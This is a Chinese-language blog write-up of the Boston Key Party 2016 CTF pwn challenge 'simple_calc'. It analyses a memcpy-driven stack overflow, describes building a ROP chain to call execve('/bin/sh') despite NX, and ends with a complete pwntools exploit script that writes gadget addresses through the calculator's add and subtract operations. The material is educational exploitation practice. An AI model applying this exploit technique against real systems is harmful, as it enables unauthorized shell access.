





<!--yml
category: 未分类
date: 2022-04-26 14:43:40
-->

# boston-key-party-2016-pwn-simple_calc 题解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/113841290](https://blog.csdn.net/A951860555/article/details/113841290)

# 文件信息

该样本来自2016年boston-key-party ctf的一道pwn题–[simple_calc](https://download.csdn.net/download/A951860555/15345410)
检查样本信息：
  只开启了NX保护，64位小端程序


# 漏洞定位

将样本拖入IDA进行分析时，会发现text段特别多，仔细分析后会发现很多函数都没有被使用，写完wp后，我猛然发现引用这么多看似无用的text段，其实是为了引用更多的gadget，方便后面ROP链的构造。好的，废话不多说，进行漏洞分析。
分析main函数，可以发现该样本是一个菜单题，先要求输入计算的次数，输入的次数必须大于3小于等于255，正确输入后会以该值作为菜单功能循环的次数。这里直接展示程序的运行截图，如下图所示：

初步了解程序功能后，我们再详细的分析一下IDA中的伪代码，如下图所示，初次输入的值存入v24变量中，然后程序会以4倍该值的大小分配一个内存块，v25变量指向该内存地址。

接着看一下switch语句，和程序功能运行截图一样，有加减乘除以及退出5个功能，且每个功能执行后都将一个dword四字节大小的值赋值给了`v25+4*i`的内存位置。然后注意一下memcpy函数，其中第一个参数v22变量位于栈空间，v25是分配的堆空间，`4*v24`是拷贝的内存大小，我们可以控制v24的大小造成缓冲区溢出。

最后我们分析一下菜单函数的具体功能，具体分析后我们可以发现每个函数实现方式都大同小异，区别在于变量的存放位置和加减乘除运算。这里我们对比上面的switch分支语句分析add函数，其余函数类同，可以发现之前拷贝到`v25+4*i`内存地址的值是这里加法运算后的结果dword_6CA88，该变量位于bss段，是全局变量，还有一点值得注意的是，加法的两个操作数不能小于0x27。


# 利用分析

经过上面的分析，我们已经发现了一个溢出漏洞，以及可以通过每次菜单功能的调用实现一次内存写。如果该题目没有开启NX保护的话，我们可以采用写入shellcode的方式，但由于开启了NX保护，所以采用构造ROP链的方式。即构造ROP链，通过程序的每次计算将ROP链的地址写入到内存中，最后退出时执行memcpy实现缓冲区溢出，执行ROP链，实现execve("/bin/sh", NULL, NULL)的系统调用。这里对于如何控制寄存器实现系统调用原理不熟悉的读者可以参考[这篇博文](https://blog.csdn.net/A951860555/article/details/110936441)。另外寻找gadget采用的是ROPgadget工具，不了解的读者可以百度一下。

# wp

```
from pwn import *

p = process("./simple_calc")

calc_time = "255"
p.sendlineafter("calculations: ", calc_time)

def add(num1, num2):
    p.sendlineafter("=> ", "1")
    p.sendline(num1)
    p.sendline(num2)

def sub(num1, num2):
    p.sendlineafter("=> ", "2")
    p.sendline(num1)
    p.sendline(num2)

for i in range(18):
    sub("40", "40")

pop_rsi = 0x401c87
pop_rdx = 0x437a85
pop_rax = 0x44db34
pop_r12 = 0x400493
syscall = 0x400488
mov_rdi_rsp_call_r12 = 0x492468

add("2100803", "2100804")
sub("40", "40")
sub("40", "40")
sub("40", "40")

add("2211138", "2211139")
sub("40", "40")
sub("40", "40")
sub("40", "40")

add("2256282", "2256282")
sub("40", "40")
sub("118", "59")
sub("40", "40")

add("2097737", "2097738")
sub("40", "40")
add("2097732", "2097732")
sub("40", "40")

add("2396724", "2396724")
sub("40", "40")

add("926200087", "926200088")
add("3422615", "3422616")

p.sendlineafter("=> ", "5")
p.interactive() 
```

# 总结

该题目虽然漏洞比较明显，利用的方式也不难想出，出题人也把简单易于构造的gadget都给我们了。但整个exp实现下来，所耗费的时间也比较多，也有许多细节问题需要注意，比如每次读入的是4个字节，而该程序是64位的，所以构造一个地址需要两次读入；同时最后构造`/bin/sh\x00`字符串时也要注意到小端序的问题。